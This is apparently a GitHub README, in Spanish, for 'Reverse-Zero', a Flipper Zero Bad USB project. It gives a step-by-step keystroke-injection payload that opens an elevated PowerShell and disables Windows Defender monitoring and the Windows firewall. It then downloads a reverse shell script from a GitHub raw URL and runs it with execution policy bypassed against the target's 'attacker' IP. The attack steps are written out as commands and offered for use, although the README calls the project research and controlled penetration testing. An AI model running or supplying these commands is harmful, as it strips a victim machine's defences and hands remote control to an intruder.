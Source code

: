 # REVERSE-ZERO


# Descripción

Reverse-Zero es un proyecto de investigación y desarrollo en el ámbito del hacking, centrado en la exploración de las capacidades de programación del Flipper Zero. En particular, se enfoca en la aplicación Bad USB, que permite ejecutar cargas útiles automatizadas a través de un dispositivo USB.

Este proyecto representa mi primera incursión en el mundo del hacking, donde he investigado a fondo el uso de PowerShell y otros lenguajes de scripting para aprovechar las funcionalidades del Flipper Zero.

# Características

Automatización de scripts para Bad USB en Flipper Zero.

Desarrollo de payloads personalizados con PowerShell.

Análisis de seguridad y pruebas de penetración controladas.

# Requisitos

Para utilizar este proyecto, necesitarás:

Un dispositivo Flipper Zero.

Un editor de texto (VS Code, Notepad++, etc.).

Conocimientos básicos de PowerShell.


# Instalación y uso.

1.  Clonar el repositorio
   ```sh g
    git clone https://github.com/90l3m0np13/Reverse-Zero/blob/main/REVERSE_SHELL.txt
   ```
2.  Abre el archivo en un editor de texto y cambia los apartados de IP y Puerto por los de tu máquina atacante.
3.  Carga los scrips en tu Flipper Zero


     - Copia los archivos al directorio correspondiente en la memoria del Flipper.
     - Ejecuta el payload desde la aplicación Bad USB.

# Crea tu ReverseShell desde 0



1. Crea una reverseshell desde 0, o hazla en la página https://www.revshells.com/. 





1. Crea un archivo TXT compuesto por DELAYS, ENTERS Y STRINGS adecuandolos a tu gusto. (Tienes el ejemplo en el proyecto de una reverseshell creada por mi).





1.  DELAY = La función que hace que el procesador espere "delay(1000); //provoca un retardo de 1000ms = 1 segundo".
2.  ENTER = Simula la acción de la tecla Intro del teclado.
3.  STRING = Se trata de una secuencia de caracteres usados para representar el texto.

1.  Sabiendo esto, vamos a empezar a programar nuestro txt.





 1.  Con este comando en String abrimos la pestaña de Ejecutar.
      ```sh g
      GUI r
      ```



 1.  Abrimos Powershell.
      ```sh g
      powershell
      ```
 1.  Lo ejecutamos como administrador.
      ```sh g
      CTRL-SHIFT ENTER
      ```

 1.  Le damos a que sí cuando nos pregunte si queremos abrirlo como administrador.
      ```sh g
      ALT s
      ```
 1.  Utilizamos este String para para deshabilitar el Windows Defender.
      ```sh g
      powershell -command 'Set-MpPreference -DisableRealtimeMonitoring $true -DisableScriptScanning $true -DisableBehaviorMonitoring $true -DisableIOAVProtection $true -  
      DisableIntrusionPreventionSystem $true'
      ```
 1.  Desactivamos el Firewall.
      ```sh g
      Set-NetFirewallProfile -Profile Domain,Public,Private -Enabled False
      ```
 1.  Descargamos el ReverseShell con el String Invoke-WebRequest (Yo en mi caso lo tengo alojado en github).
      ```sh g
      Invoke-WebRequest -Uri "https://raw.githubusercontent.com/alvaroarenas69/scrips-powershell/main/reverseshell.ps1" -OutFile "reverseshell.ps1"
      ```
 1.  Ejecutamos el ReverseShell.
      ```sh g
      powershell -ExecutionPolicy Bypass -File ".\reverseshell.ps1"
      ```
 1.  Una vez creado el txt, lo guardamos. Conectamos el Flipper al PC mediante la aplicación qflipper, que podemos descargar en el siguiente      enlace: https://flipperzero.one/update
 2.  Dentro de la aplicación, buscamos el fichero Read File y pegamos el txt en la carpeta BADUSB.

    
     ![imagen](https://github.com/90l3m0np13/Reverse-Zero/blob/main/im%C3%A1genes/badusb.png)
 4.  Y por último, solo queda ejecutar el Scrip que hemos creado desde el flipper zero.


















